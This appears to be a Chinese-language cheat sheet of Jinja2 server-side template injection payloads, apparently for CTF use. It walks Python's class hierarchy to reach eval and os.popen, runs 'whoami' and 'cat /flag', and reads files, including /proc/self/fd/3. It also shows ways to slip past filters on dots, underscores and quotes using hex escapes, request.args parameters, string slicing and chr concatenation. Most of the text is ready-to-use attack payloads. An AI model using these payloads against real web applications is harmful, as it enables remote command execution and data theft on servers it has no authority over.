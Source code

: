 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()") }}{% endif %}{% endfor %}
#读写文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```


^
## **利用链的思路**
```
1.随便找一个内置类对象用__class__拿到他所对应的类
2.用__bases__拿到基类（<class 'object'>）
3.用__subclasses__()拿到子类列表
4.在子类列表中直接寻找可以利用的类getshell

对象→类→基本类→子类→__init__方法→__globals__属性→__builtins__属性→eval函数
```


^
^
## **点._绕过**
单引号'被过滤可以用双引号"代替；

至于点.和下划线_被过滤可以采用16进制来表示，用的方式选定。知道怎么过滤了那就照着以前payload修改就好了。
```
{{config["\x5f\x5fclass\x5f\x5f"]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("whoami")["read"]()}}

利用frozen_importlib_external.FileLoader类
get_data方法直接读打开过的文件内容
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```

^
## **引号绕过**
传参绕过
```
?name={{lipsum.__globals__.os.popen(request.args.ocean).read()}}&ocean =cat /flag
?name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=cat /flag
```

下面拿到os后继续传参绕过request.args.a进行popen

字符串拼接绕过
```
(config.__str__()[2])
(config.__str__()[42])	

?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
等于
?name={{url_for.__globals__['os']}}
```

chr拼接绕过
```
?name={% set chr=url_for.__globals__.__builtins__.chr %}{% print  url_for.__globals__[chr(111)%2bchr(115)]%}
```



^
```